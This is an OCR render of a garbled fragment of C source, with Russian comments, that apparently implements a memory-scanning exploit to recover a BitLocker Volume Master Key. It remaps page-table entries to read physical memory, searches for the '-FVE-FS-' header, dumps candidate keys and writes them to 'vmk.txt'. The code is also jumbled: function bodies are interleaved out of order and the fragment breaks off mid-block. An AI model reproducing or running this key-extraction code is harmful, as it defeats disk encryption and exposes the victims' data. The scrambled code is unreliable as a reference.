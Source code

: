 ```

        fclose(file);
        printf("[+] VMK saved to 'vmk.txt'. press ctrl+c to Exiting program.\n");
        getchar(); // Ожидаем нажатия клавиши Enter
    }    printf("[+] Starting search for VMK\n");
    
    void hexDump(const char *desc, void *addr, int len, int width) {
        int i, j;
        unsigned char *pc = (unsigned char*)addr;
    
        if (desc) printf("%s:\n", desc);
    
        for (i = 0; i < len; i += width) {
            // Выводим смещение в 4-значном шестнадцатеричном формате
            printf("  %04x  ", i);
    
            // Выводим hex-значения в указанном количестве байт (width)
            for (j = 0; j < width; j++) {
                if (i + j < len)
                    printf("%02x ", pc[i + j]);
                else
                    printf("   ");  // Заполняем пробелами, если строка короче width
            }
    
            printf(" ");
    
            // Выводим ASCII-представление
            for (j = 0; j < width; j++) {
                if (i + j < len) {
                    unsigned char c = pc[i + j];
                    printf("%c", (c >= 32 && c <= 126) ? c : '.');  // Только печатные символы
                }
            }
            printf("\n");
        }
    }

        for (unsigned long long l = 0; l < (CONFIG_PHYS_MEM / 0x200000); l++) {
        unsigned long long phys_base = l * 0x200000ull;

        for (unsigned short j = 0; j < 512; j++)
            pte_area[512 + j] = (phys_base + 0x1000ull * j) | 0x80000000000867;
        flush_tlb(_pmd_area, 0x400000);

    void* pmd_vmk_hdr_addr = memmem(pmd_data_area, 0x200000, "-FVE-FS-", 8);
        if (pmd_vmk_hdr_addr == NULL)
        continue;

    unsigned long long phys_vmk_hdr_addr = phys_base + (pmd_vmk_hdr_addr - pmd_data_area);

        printf("[+] found possible VMK base: %p -> %016llx\n", pmd_vmk_hdr_addr, phys_vmk_hdr_addr);
        hexDump("VMK Candidate", pmd_vmk_hdr_addr, 0x10*40, 0x10);
        uint32_t version = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4);
        uint32_t start = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4);
        uint32_t end = *(uint32_t*)(pmd_vmk_hdr_addr + 8+4+4+4);
        
        if (version != 1) {
            printf("[+] VERSION MISMATCH! %d\n", version);
            continue;
        }
        if (end <= start) {
            printf("[+] NOT ENOUGH SIZE! %x, %x\n", start, end);
```